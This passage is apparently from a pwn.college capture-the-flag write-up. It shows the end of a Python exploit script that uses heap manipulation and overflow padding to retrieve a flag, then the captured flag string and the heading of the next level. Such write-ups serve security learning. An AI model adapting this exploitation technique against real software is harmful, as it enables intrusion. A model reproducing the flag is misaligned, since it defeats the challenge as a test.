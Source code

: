 ```python
        0,
        0x401,
    )

    stack_scanf(payload)
    stack_free()

    raw_input("DEBUG")
    malloc(0, 0x3F0)

    payload = flat(
        b"A" * 0xBB,
        0,
        0,
    )
    scanf(0, payload)
    send_flag(flat(0, 0))
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{w9fBk2-OmoD0TO7dLtn3ypPp0RY.dJTO0MDL5cTNxgzW}`]

# Level 18.1

## Information

- Category: Pwn

## Description

